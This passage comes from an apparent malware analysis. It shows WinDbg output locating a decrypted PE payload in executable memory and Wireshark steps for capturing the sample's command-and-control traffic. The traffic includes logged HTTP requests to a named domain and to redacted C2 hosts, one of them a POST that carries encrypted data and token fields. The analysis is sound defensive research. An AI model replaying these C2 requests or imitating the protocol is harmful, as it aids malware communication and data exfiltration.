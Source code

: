 ```
0:000> !address -f:MEM_COMMIT -t:MEM_PRIVATE
 BaseAddress      EndAddress        RegionSize     Type       State                 Protect          Usage
 ...
 000001d3`4a7c0000 000001d3`4a7e0000   0`00020000 MEM_PRIVATE MEM_COMMIT  PAGE_EXECUTE_READWRITE   <unknown>
 ...

0:000> db 000001d3`4a7c0000 L100
000001d3`4a7c0000  4d 5a 90 00 03 00 00 00-04 00 00 00 ff ff 00 00  MZ..............
000001d3`4a7c0010  b8 00 00 00 00 00 00 00-40 00 00 00 00 00 00 00  ........@.......
000001d3`4a7c0020  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
000001d3`4a7c0030  00 00 00 00 00 00 00 00-00 00 00 00 80 00 00 00  ................
000001d3`4a7c0040  0e 1f ba 0e 00 b4 09 cd-21 b8 01 4c cd 21 54 68  ........!..L.!Th
000001d3`4a7c0050  69 73 20 70 72 6f 67 72-61 6d 20 63 61 6e 6e 6f  is program canno
000001d3`4a7c0060  74 20 62 65 20 72 75 6e-20 69 6e 20 44 4f 53 20  t be run in DOS 
000001d3`4a7c0070  6d 6f 64 65 2e 0d 0d 0a-24 00 00 00 00 00 00 00  mode....$.......
```

This reveals the MZ header of a PE file in memory, indicating the decrypted payload.

### Network Traffic Analysis

Using Wireshark to capture and analyze C2 communication:

1. Start Wireshark with the following display filter:
   ```
   http.request or http.response
   ```

2. Execute the sample and observe the following HTTP requests:

```
GET https://www.henraux.com/sitemaps/about/about.asp HTTP/1.1
Host: www.henraux.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Accept: */*
```

Response contains HTML with embedded URLs for the second C2 layer.

3. Second request to retrieve an image:

```
GET https://[redacted]/images/banner.jpg HTTP/1.1
Host: [redacted]
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Accept: image/jpeg, image/png, */*
```

4. POST request to the third C2 layer:

```
POST https://[redacted]/api/data?user=random2chars HTTP/1.1
Host: [redacted]
Content-Type: application/x-www-form-urlencoded
Content-Length: 384

type=15&token=BASE64ENCRYPTEDDATA&auth=IVANDKEY&data=ENCRYPTEDCONTENT
```

